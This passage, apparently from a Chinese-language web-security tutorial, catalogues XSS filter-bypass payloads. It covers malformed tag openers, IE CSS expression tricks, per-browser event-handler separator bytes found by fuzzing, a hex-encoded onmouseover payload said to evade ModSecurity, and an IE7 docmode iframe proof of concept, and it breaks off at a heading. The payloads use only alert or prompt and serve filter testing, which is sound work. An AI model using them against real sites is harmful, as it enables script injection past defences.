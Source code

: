 语法BUG

RFC声明中节点名称不能是空格，以下的形式在javascript中不能运行
```
    <script>alert(1);</script>
    <%0ascript>alert(1);</script>
    <%0bscript>alert(1);</script>
```
`<%`, `<//`, `<!`,`<?`可以被解析成`<`，所以可以使用以下的payload
```
    <//     style=x:expression\28write(1)\29> // Works upto IE7
```
参考http://html5sec.org/#71
```
    <!--[if]><script>alert(1)</script     --> // Works upto IE9
```
参考http://html5sec.org/#115

    <?xml-stylesheet     type="text/css"?><root     style="x:expression(write(1))"/> // Works in IE7
参考 http://html5sec.org/#77
```
    <%div%20style=xss:expression(prompt(1))>     // Works Upto IE7
```
Unicode分隔符

`[on\w+\s*]`这个规则过滤了所有on事件，为了验证每个浏览器中有效的分隔符，可以使用fuzzing方法测试0×00到0xff，结果如下：
```
    IExplorer=     [0x09,0x0B,0x0C,0x20,0x3B]
    Chrome =     [0x09,0x20,0x28,0x2C,0x3B]
    Safari = [0x2C,0x3B]
    FireFox=     [0x09,0x20,0x28,0x2C,0x3B]
    Opera = [0x09,0x20,0x2C,0x3B]
    Android =     [0x09,0x20,0x28,0x2C,0x3B]
    x0b在Mod_security中已经被过滤，绕过的方法：
    <a/onmouseover[\x0b]=location=&#039;\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3A\x61\x6C\x65\x72\x74\x28\x30\x29\x3B&#039;>rhainfosec
```
缺少X-frame选项

通常会认为X-frame是用来防护点击劫持的配置，其实也可以防护使用iframe引用的xss漏洞

Docmodes

IE引入了doc-mode很长时间，提供给老版本浏览器的后端兼容性，有风险，攻击情景是黑客可以引用你站点的框架，他可以引入doc-mode执行css表达式
```
expression(open(alert(1)))
```
以下POC可以插入到IE7中
```
    <html>
    <body>
    <meta http-equiv="X-UA-Compatible" content="IE=EmulateIE7" />
    <iframesrc="https://targetwebsite.com">
    </body>
    </html>
```
Window.name欺骗
